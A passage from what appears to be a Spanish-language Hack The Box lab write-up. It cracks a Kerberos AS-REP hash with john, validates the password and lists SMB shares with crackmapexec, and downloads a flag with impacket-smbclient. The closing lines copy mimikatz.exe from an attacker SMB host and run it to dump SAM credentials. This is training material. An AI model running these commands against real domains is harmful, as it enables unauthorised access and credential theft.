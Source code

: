 ```bash
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 XOP 4x2])  
Press 'q' or Ctrl-C to abort, almost any other key for status
Passw0rd1!       ($krb5asrep$23$bob@HTB.LOCAL)
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Después de obtener las contraseñas utilizando la herramienta "john", validamos las credenciales con crackmapexec. Al listar los recursos compartidos a nivel de SMB en DC1, observamos que ahora tenemos privilegios de lectura en el recurso "Users".

```bash
❯ crackmapexec smb dc1.htb.local -u bob -p Passw0rd1! --shares
SMB         dc1.htb.local   445    DC1              [*] Windows 10.0 Build 17763 x64 (name:DC1) (domain:htb.local) (signing:True) (SMBv1:False)  
SMB         dc1.htb.local   445    DC1              [+] htb.local\bob:Passw0rd1! 
SMB         dc1.htb.local   445    DC1              [+] Enumerated shares
SMB         dc1.htb.local   445    DC1              Share           Permissions     Remark
SMB         dc1.htb.local   445    DC1              -----           -----------     ------
SMB         dc1.htb.local   445    DC1              ADMIN$                          Remote Admin
SMB         dc1.htb.local   445    DC1              C$                              Default share
SMB         dc1.htb.local   445    DC1              IPC$            READ            Remote IPC
SMB         dc1.htb.local   445    DC1              NETLOGON        READ            Logon server share 
SMB         dc1.htb.local   445    DC1              SYSVOL          READ            Logon server share 
SMB         dc1.htb.local   445    DC1              Users           READ
```

Nos conectamos simplemente con smbclient y navegamos dentro del recurso "Users". Encontramos un directorio llamado "bob" que contiene el archivo flag.txt. Procedemos a descargar este archivo utilizando el comando "get" y luego lo leemos para obtener su contenido.

```bash
❯ impacket-smbclient htb.local/bob:'Passw0rd1!'@dc1.htb.local  
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# use Users
# ls
drw-rw-rw-          0  Fri Sep  6 05:50:58 2019 .
drw-rw-rw-          0  Fri Sep  6 05:50:58 2019 ..
drw-rw-rw-          0  Fri Sep  6 06:10:00 2019 bob
# cd bob
# ls
drw-rw-rw-          0  Fri Sep  6 06:10:00 2019 .
drw-rw-rw-          0  Fri Sep  6 06:10:00 2019 ..
-rw-rw-rw-         47  Fri Sep  6 06:10:54 2019 flag.txt
# get flag.txt
# exit

❯ cat flag.txt
HADES{DoNt_d1s4b*******e_aUth3nticat1on}
```


[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>